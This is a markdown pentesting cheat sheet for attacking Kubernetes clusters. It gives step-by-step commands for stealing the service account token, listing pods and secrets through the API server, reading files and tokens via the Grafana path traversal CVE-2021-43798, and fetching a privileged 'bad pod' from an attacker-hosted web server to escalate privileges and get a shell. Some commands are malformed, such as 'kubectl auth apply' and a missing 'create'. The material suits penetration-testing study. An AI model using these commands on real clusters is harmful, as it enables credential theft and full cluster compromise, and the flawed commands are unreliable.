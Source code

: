 ```yaml
---
title: Kubernetes Pentesting
desc: A portable, extensible, open source platform for managing containerized workloads and services, that facilitates both declarative configuration and automation. It uses port 8443.
tags: [6443, 8443, Container, Kubectl, Kubernetes]
alts: [JWT-Pentesting]
render_with_liquid: false
---
```


## Fetch Information from Kubernetes API Server

1. **Find Token**

    ```sh
    cat /var/run/secrets/kubernetes.io/serviceaccount/token
    ```

2. **Decode JWT Token**

    If you get the token, decode it using some tool.  

    **[JWT.io](https://jwt.io/){:target="_blank"}{:rel="noopener"}** is an useful online tool.  

3. **Fetch Information**

    ```sh
    # -k: insecure (HTTPS)
    curl -k -v -H "Authorization: Bearer <jwt-token>" https://<target-ip>:<target-port>/api/v1/namespaces/default/pods/
    curl -k -v -H "Authorization: Bearer <jwt-token>" https://<target-ip>:<target-port>/api/v1/namespaces/default/secrets/
    ```

<br />

## Interact with Kubernetes API Server

1. **Create a Service Account**

    ```sh
    # Create a ServiceAccount
    kubectl serviceaccount api-explorer
    # Bind the ClusterRole to the ServiceAccount
    # eg. namespace: default
    kubectl create rolebinding api-explorer:log-reader --clusterrole log-reader --serviceaccount default:api-explorer 
    ```

2. **Check Your Permission**

    ```sh
    kubectl auth can-i --list
    # /var/run/secrets/kubernetes.io/serviceaccount/token
    kubectl auth can-i --list --token=<JWT>
    ```

3. **List All Pods**

    ```sh
    kubectl get pods
    ```

4. **List All Secrets**

    ```sh
    kubectl get secrets

    # Get the specific secret
    kubectl get secret <secret-name>
    # Get the specific secret to output json
    kubectl get secret <secret-name> -o 'json'

    # List all data contained in the specific secret
    kubectl describe secret <secret-name>
    ```

5. **Get the Token (JWT) of the Service Account Running a Pod**

    ```sh
    cat /var/run/secrets/kubernetes.io/serviceaccount/token
    ```

<br />

## Grafana Exploiting

Some Grafana versions are vulnerable to Path Traversal.  

Kubernetes creates environment variables by default.

1. **Check Environment Variables on the Target Machine**

    ```sh
    env
    ```

    If you got the GRAFANA environment like the following, the Grafana service is running on the cluster.  

    ```
    GRAFANA_SERVICE_HOST=10.108.133.228
    GRAFANA_PORT=tcp://10.108.133.228:3000
    GRAFANA_PORT_3000_TCP=tcp://10.108.133.228:3000
    ```

2. **Access the Grafana Dashboard**

    You can access the service at **http://<grafana-ip>:<grafana-port>**.  

2. **Get the JWT of the Service Account**

    Using Path Traversal (CVE-2021-43798).

    ```sh
    curl --path-as-is http://<grafana-ip>:<grafana-port>/public/plugins/alertlist/../../../../../../../../etc/passwd
    ```

    Get the token (JWT) of the service account.

    ```sh
    curl --path-as-is http://grafana:3000/public/plugins/alertlist/../../../../../../../../var/run/secrets/kubernetes.io/serviceaccount/token
    ```

3. **Decode the JWT and Get Sensitive Information**

    See **[JWT Pentesting](./JWT-Pentesting){:target="_blank"}{:rel="noopener"}**.
    

4. **Check Your Permission of This Service**

    Using the JWT, you should get permissions.

    ```sh
    kubectl auth can-i --list --token=<Grafana-JWT>

    # List pods
    kubectl get pods --token=<JWT>
    ```

5. **Get a Shell on the Grafana Pod**

    ```sh
    kubectl exec -it <grafana-pod-name> --token=<Grafana-JWT> -- /bin/bash
    ```

## Privilege Escalation using Bad Pods

    Reference: [everything-allowed-exec-pod.yaml](https://github.com/BishopFox/badPods/blob/main/manifests/everything-allowed/pod/everything-allowed-exec-pod.yaml){:target="_blank"}

1. **Download the Bad Pod**

    At first, you need to download the bad pod on your local machine.

    ```sh
    wget https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/everything-allowed/pod/everything-allowed-exec-pod.yaml -O privesc.yaml
    ```

    Then start web server to allow the target machine to get this bad pod.

    ```sh
    python3 -m http.server 8000
    ```

3. **Trasfer the Bad Pod to the Target Machine**

    On the target machine, download the bad pod from your local machine.

    ```sh
    wget http://<your-local-ip>:8000/privesc.yaml
    ```

4. **Create the Pod**

    ```sh
    # Create the pod
    kubectl auth apply -f privesc.yaml --token=<JWT>
    
    # List all pods
    kubectl get pods --token=<JWT>
    ```

5. **Get a Shell**

    ```sh
    kubectl exec -it everything-allowed-exec-pod --token=<JWT> -- /bin/bash
    ```
